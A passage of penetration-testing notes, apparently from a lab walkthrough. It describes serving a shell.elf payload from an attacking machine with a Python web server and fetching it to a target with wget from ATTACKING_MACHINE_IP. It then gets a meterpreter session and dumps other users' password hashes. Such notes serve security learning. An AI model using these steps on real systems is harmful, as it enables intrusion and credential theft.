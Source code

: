 2) Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget `http://ATTACKING_MACHINE_IP:9000/shell.elf` to download it to the target machine)
![[Pasted image 20240815204155.png]]

3) Get a meterpreter session on the target machine
![[Pasted image 20240815204419.png]]
![[Pasted image 20240815204439.png]]
![[Pasted image 20240815204600.png]]

4) Use a post exploitation module to dump hashes of other users on the system.
![[Pasted image 20240815204656.png]]

